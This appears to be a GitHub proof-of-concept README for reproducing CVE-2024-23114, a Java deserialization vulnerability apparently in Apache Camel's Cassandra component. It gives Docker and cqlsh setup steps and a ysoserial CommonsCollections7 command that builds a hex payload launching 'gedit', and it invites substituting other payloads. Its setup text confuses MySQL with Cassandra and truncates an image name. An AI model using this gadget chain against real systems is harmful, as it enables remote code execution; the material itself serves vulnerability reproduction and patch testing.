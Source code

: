 # CVE-2024-23114

### Prepare the enviroment

We'll need a Mysql instance

`docker run --rm -d --name cassandra -p 9042:9042 cassandr`

Now we'll need to create the required tables:

You have two files: employee.sql and employee_completed.sql

Run the following command:

```
docker exec -it cassandra bash

root@fe5e7aff17e7:/# cqlsh

CREATE KEYSPACE db WITH REPLICATION = { 'class' : 'SimpleStrategy', 'replication_factor' : 1 };
```

Insert your password, execute `USE db;` and run the two SQL files.

At this stage you already have the required bits to reproduce the deserialization.

### Payload

The payload we are using is based on commons-collections 3.2.1.

You'll need to use:

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

From the command line you can recreate the payload this way:

`java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \  
--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \   
--add-opens java.base/java.net=ALL-UNNAMED \   
--add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections7 gedit | xxd -p`

This will return the Hex version of the payload. The idea is to run `gedit` command while deserializing.

You can play with possible payloads and change the SQL scripts by changing the INSERT statement and add the new   
generated payloads.

### Run

To reproduce the behavior. First of all select a JDK 17 (locally or through SDKMan).

The run the following command:

`mvn clean install -Dcamel.version=4.3.0 -Dspring-boot.version=3.2.0 -Djava.version=17 spring-boot:run`
